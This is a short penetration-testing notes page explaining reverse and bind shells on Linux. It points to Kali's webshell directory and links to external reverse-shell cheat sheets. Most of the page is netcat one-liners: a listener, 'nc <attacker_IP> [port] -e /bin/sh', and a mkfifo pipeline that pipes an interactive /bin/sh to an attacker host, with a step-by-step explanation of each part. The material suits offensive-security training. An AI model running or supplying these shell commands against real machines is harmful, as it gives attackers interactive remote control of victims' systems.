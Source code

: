 ```yaml
---
description: Reverse/bind shell
---
```


# Gaining shell

### Webshell repository in Kali Linux

`/usr/share/webshells/`

### Reverse shell

Given a scenario where an attacker has gained remote code execution privileges on a victim machine, a reverse/bind shell can be established to allow the attacker to gain a remote shell session on the victim machine.

A reverse shell works by establishing a connection from the target machine with shell execution, to a listening port on the attacker's machine. This allows any commands sent from the attacker's machine to be executed by the shell on the victim's machine, allowing a remote shell environment.

A bind shell works in an opposite way to a reverse shell, such that the connection is established from attacker machine to the target machine on a specific listening port (enabled by the attacker).&#x20;

#### Basic command on attacker machine:

```bash
# Listen on a TCP port
$ nc -lp [port]
```

#### Command to be executed on the victim's machine:

```bash
# option 1
$ nc <attacker_IP> [port] -e /bin/sh


# option 2: -e flag might not be present for some netcat versions
$ rm /tmp/fifo; mkfifo /tmp/fifo; cat /tmp/fifo | /bin/sh -i 2>&1 | nc <attacker_IP> [port] > /tmp/fifo

```

### Bind shell

#### Basic command on attacker machine:

```bash
# Listen on a TCP port
$ nc <victim_IP> <port>
```

#### Command to be executed on the victim's machine:

```bash
# option 1
$ nc -lp [port] -e /bin/sh

# option 2: with $ symbol on attacker machine
$ rm /tmp/fifo; mkfifo /tmp/fifo; cat /tmp/fifo | /bin/sh -i 2>&1 | nc -lp [port] > /tmp/fifo

```



### Explanation for commands use in option 2 of reverse/bind shell

_**What is a fifo (named pipe) file?**_

> ‘mkfifo’ is primarily used when two processes need to communicate with each other but do not have a parent-child relationship. A FIFO special file is an extension of pipes, which offers a pathway for data between two processes. The FIFO special file can be opened by multiple processes for reading and writing. It is especially useful in scenarios where data streaming is necessary.

{% embed url="https://hopeness.medium.com/master-the-linux-mkfifo-command-a-comprehensive-guide-7e64ac926228" %}
mkfifo command
{% endembed %}

1. `rm /tmp/fifo`: Remove the _fifo_ (named pipe) file if it already exists
2. `mkfifo /tmp/fifo:` Create a _fifo_ file at the location `/tmp/fifo` using the `mkfifo` command
3. `cat /tmp/fifo`: Retrieve content of the created _fifo_ file
4. `/bin/sh-i 2>&1:`  Simply executes the current shell, with the `-i` flag for interactive shell mode, and `2>&1` which redirects standard error to standard output, combining both output streams
5. `nc -lp [port] > /tmp/fifo`: Runs the netcat command and sends the output to `/tmp/fifo`.&#x20;

_**Overview**_

These series of commands essentially continuously waits for an input from the attacker machine, before executing it with the current shell, before sending back as input through the established _netcat_ connection:

```bash
cat /tmp/fifo | /bin/sh -i 2>&1 | nc ... > /tmp/fifo
```

a) Attacker sends remote command, which is directed to (`>`) `/tmp/fifo`

b) When the value of `/tmp/fifo`changes, the `cat` command would retrieve the new value and pipe it as input to the `/bin/sh -i 2>&1` command

c) The output from the executed shell command would be piped back as input through the _netcat_ connection to be viewed on the attacker machine



{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux" %}

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell" %}

{% embed url="https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}
